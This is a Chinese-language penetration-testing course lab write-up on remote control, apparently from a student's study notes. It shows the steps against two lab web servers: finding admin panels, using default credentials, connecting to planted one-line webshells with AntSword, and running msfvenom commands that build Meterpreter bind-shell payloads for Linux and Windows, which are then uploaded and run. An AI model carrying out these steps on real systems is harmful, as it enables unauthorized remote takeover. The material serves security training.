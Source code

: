 ```yaml
---
title: 实验三--远程控制技术
category: 学习笔记
tags: [网络渗透测试技术、远程控制]
published: 2025/04/23 11:53:14
permalink: /course/nyyrztx3/
---
```


## 实验目的

1、学会使用主流的远控软件,比如msf.学会使用webshell管理工具对一句话木马进行连接.

## 实验任务

1、进入web系统后台后写入一句话木马,然后用中国蚁剑进行连接

2、用中国蚁剑进行连接后,使用msf进行远控

## 实验步骤

### 广诚在线视频 10.100.0.99

御剑扫描，发现敏感文件

![image-20240714194140257](./images/202407142108134.png)                               

使用浏览器打开是乱码的，火狐自带修复工具，修复后即可找到管理页面和登录的账号密码

![image-20240714194153388](./images/202407142108135.png) 

登录后台后，点击工具à模板管理àdefaultàHome，编辑index.tpl，在这里应该是要自己加上一句话木马的，但是环境是公共环境，已经有人添加了进去，所以我们是可以直接利用的

![image-20240714194158919](./images/202407142108136.png)

连接成功

![image-20240714194223962](./images/202407142108137.png)

生成msf正向马

msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=12345 -f elf > linuxshell27

![image-20240714194237714](./images/202407142108138.png)

然后使用蚁剑上传木马

 ![image-20240714194245731](./images/202407142108140.png)

启用蚁剑的虚拟终端，然后运行木马

![image-20240714194215936](./images/202407142108141.png)

在攻击机上启用msf去连接木马，但是不是root权限

![image-20240714194314505](./images/202407142108142.png)

### 广诚小学 10.100.0.49

登录网站，发现有一个administrator用户名，扫描目录找到后台登录

![image-20240714194323866](./images/202407142108143.png)

使用dirsearch找到后台登录地址

![image-20240714194328076](./images/202407142108144.png)

使用administrator/ administrator登录，然后再专题管理中对最下面的专题进行编辑

![image-20240714194332109](./images/202407142108145.png)

进入编辑页面看到已有马，所以直接，使用蚁剑进行连接

![image-20240714194335791](./images/202407142108146.png)

蚁剑连接成功

![image-20240714194339615](./images/202407142108147.png) 

根据目录结构判断是Windows环境

![image-20240714194344535](./images/202407142108148.png)

使用msf生成Windows的正向木马

msfvenom -p windows/meterpreter/bind_tcp LPORT=12345 -f exe -o flash27.exe

 ![image-20240714194348490](./images/202407142108149.png)

利用蚁剑上传

![image-20240714194352291](./images/202407142108150.png)

然后运行木马

![image-20240714194400586](./images/202407142108151.png) 

msf进行监听

![image-20240714194406423](./images/202407142108152.png)
